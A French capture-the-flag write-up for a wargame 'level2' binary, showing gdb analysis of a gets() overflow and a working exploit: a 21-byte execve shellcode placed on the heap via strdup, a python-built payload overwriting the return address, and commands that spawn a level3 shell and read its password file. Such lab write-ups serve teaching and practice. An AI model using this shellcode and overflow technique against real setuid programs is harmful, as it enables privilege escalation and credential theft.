 ## Comportement
- J'ai des droits `level2` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*`
- En exécutant le binaire (`./level2`), on observe:
  - qu'il attend un input de notre part.
  - qu'il print notre input avant de quitter.
  - qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level2`) on observe:
- La présence d'une fonction `p()` avec un appel a `gets()`. Comme dans l'exercice précédent, la faille se trouve ici. 
  ```shell
  (gdb) disas p
  ...
  0x080484ed <+25>:	call   0x80483c0 <gets@plt>
  ...
  ```
- Une vérification est effectuée pour s'assurer que nous n'écrasons pas l'adresse de retour avec une adresse de la stack.
Notre adresse de retour ne peut pas commencer par le bit 'b' (indiqué par la commande 'and' avec la valeur "0xb0000000"). 
Elle ne peut donc pas pointer vers la stack (plage 0xbf000000 - 0xbfffffff).
  ```shell
  (gdb) disas p
  ...
  0x080484fb <+39>: and eax,0xb0000000
  0x08048500 <+44>: cmp eax,0xb0000000
  ...
  ```
- On constate que le buffer est ensuite copie via la fonction `strdup()`, or elle utilise `malloc()` qui stocke sur la heap et non la stack. 
  ``` 
  (gdb) disas p
  ...
  0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
  ...
  ```


## Résolution
- On applique un shellcode (petit code qui permet d'ouvrir un shell interactif) et l'inscrire sur la heap. 
Trouve [ici] (http://shell-storm.org/shellcode/files/shellcode-575.php). Il est de long de 21 bytes.
  ```shell
  \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
  ```
- On overwrite l'adresse de retour en utilisant un pattern generator comme [celui-ci] (https://wiremask.eu/tools/buffer-overflow-pattern-generator/) afin de trouver l'offset de l'`eip`. On voit qu'il est de 80 bytes.
- On ajoute 59 bytes de padding (80 - 21) suivi de l'adresse du buffer dans la heap (`\x08\xa0\x04\x08`). Pour trouver celle ci on `run` le programme sous gdb en mettant un breakpoint après `strdup()`, on observe l’état du registre `eax` puisque `strdup()` y stocke l'adresse du buffer : 
  ```shell
  python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
  ```
- On couple l'envoi du payload avec le trick qui permet a stdin de rester open (`- |`).
  ```shell
  cat /tmp/payload - | ./level2
  ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level3`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level3/.pass`)
  - quitter le shell (`exit`)
  - et passer au level3 (`su level3`) en renseignant ce password.

